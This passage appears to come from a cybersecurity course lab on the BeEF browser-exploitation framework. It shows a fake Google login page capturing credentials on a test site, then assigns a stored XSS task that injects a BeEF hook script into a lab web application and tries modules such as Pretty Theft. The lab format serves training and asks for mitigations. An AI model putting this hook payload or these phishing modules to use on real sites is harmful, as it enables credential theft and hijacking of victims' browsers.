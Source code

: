 After selecting this option, the right-hand pane will display a description of the exploit and any dependencies or options, as the following image shows:

A screenshot depicts the right-hand pane with details about the Google Phishing exploit.

To launch the exploit, select "Execute" in the bottom-right corner.

After selecting "Execute," return to the browser that was displaying the Butcher Shop website. Note that it has changed to a Google login page.

A victim could easily mistake this for a real login prompt.

Let's find out what would happen if a victim entered their credentials. Use the following credentials to log in to the fake Google page:

Username: hackeruser
Password: hackerpass
A screenshot displays the fake Google login page with the username and password fields highlighted.

Return to the BeEF control panel. In the center pane ("Module Results History"), select the first option. Note that in the right-hand pane, the user's username and password have now been captured by the attacker, as the following image shows:

A screenshot depicts the command panel.

Now that you know how to use the BeEF tool, you'll use it to test the Replicants web application. You are tasked with using a stored XSS attack to inject a BeEF hook into Replicants's main website.

Task details:

You will test the Replicants Stored XSS application page (which we used on the first day of this module): http://192.168.13.25/vulnerabilities/xss_s/.
The BeEF hook, which was returned after running the sudo beef command, was: http://127.0.0.1:3000/hook.js.
The payload to inject with this BeEF hook is: <script src="http://127.0.0.1:3000/hook.js"></script>.
When you attempt to inject this payload, you will encounter a client-side limitation that will not allow you to enter the whole payload. You will need to find a way around this limitation.

HINT
Once you are able to hook into Replicants's website, attempt a couple of BeEF exploits. Some that may work well include:

Social Engineering > Pretty Theft

Social Engineering > Fake Notification Bar

Host > Get Geolocation (Third Party)

In your M15 Challenge Submission File, paste a screenshot confirming that you successfully executed this exploit, and write two or three sentences outlining mitigation strategies for this vulnerability.
